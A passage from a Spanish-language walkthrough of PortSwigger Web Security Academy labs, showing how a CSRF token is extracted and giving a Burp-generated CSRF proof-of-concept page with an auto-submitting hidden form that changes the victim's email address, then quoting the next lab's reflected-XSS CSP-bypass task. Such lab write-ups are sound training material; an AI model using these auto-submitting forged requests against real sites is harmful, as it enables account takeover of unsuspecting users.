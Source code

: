 ![](img69.png)

Luego en el burp collaborator extraemos el token csrf.

![](img70.png)

Ahora realizamos lo mismo que en el ejemplo anterior. 

```
Entonces, lo que haremos será ir de nuevo, a la seccion de cambiar la contraseña e interceptar el paquete.

Y luego le damos clic derecho en **Engagement tools** y luego en **Generate CSRF PoC**. Luego reemplazamos el token CSRF, luego en options clic en **Include auto-submit script**, clic en regenerate y en copy HTML.
```

Entonces obtenemos el siguiente codigo html.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac4f1f601fb90c4a8021091a00f800a2.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;a&#46;a" />
      <input type="hidden" name="csrf" value="yda9ZQLTDugPFtoh582JFbAmi2oAf67l" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Y lo enviamos en el Exploit Server.

![](img71.png)

![](img72.png)

## 30. Lab: Reflected XSS protected by CSP, with CSP bypass (P)

```
This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.

Please note that the intended solution to this lab is only possible in Chrome.
```
